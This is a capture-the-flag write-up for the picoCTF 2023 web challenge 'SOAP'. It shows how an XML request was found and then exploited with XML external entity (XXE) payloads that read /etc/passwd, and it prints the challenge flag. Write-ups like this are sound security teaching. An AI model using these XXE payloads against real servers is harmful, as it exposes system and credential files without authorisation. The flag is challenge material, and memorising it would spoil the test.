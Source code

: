 # SOAP
## Description
>The web project was rushed and no security assessment was done. Can you read the /etc/passwd file? [Web Portal](http://saturn.picoctf.net:55566/)

---
Visiting the page, we see a page with 3 cards, and an interactable `Details` button:

![image](https://github.com/spencerja/picoCTF_2023_Writeup/blob/main/Web_Exploitation/SOAP/screencaps/Pasted%20image%2020230327205408.png)

When we watch Firefox's Network Monitor and click a detail, we see a post method sent:

![image](https://github.com/spencerja/picoCTF_2023_Writeup/blob/main/Web_Exploitation/SOAP/screencaps/Pasted%20image%2020230327205640.png)

The request payload is in xml format, potentially leading to XXE (XML external entity) injection. We can try a simple payload described in [portswigger's post](https://portswigger.net/web-security/xxe) on the topic:

```
`<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> <stockCheck><productId>&xxe;</productId></stockCheck>`
```

modifying our own payload:
```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY abc SYSTEM "file:///etc/passwd"> ]><data><ID>&abc;</ID></data>
```

We can resend our request using Firefox's Network Manager again, and replace the body contents with our newly modified payload. In the response tab, we see the contents of `/etc/passwd` as well as our flag:

![image](https://github.com/spencerja/picoCTF_2023_Writeup/blob/main/Web_Exploitation/SOAP/screencaps/Pasted%20image%2020230327210246.png)

picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}

In an interesting twist of annoyance, the xxe injection fails if you use the entity term 'xxe', as is done in portswigger's example.  After renaming the entity to 'abc', the xxe exploit worked effortlessly.

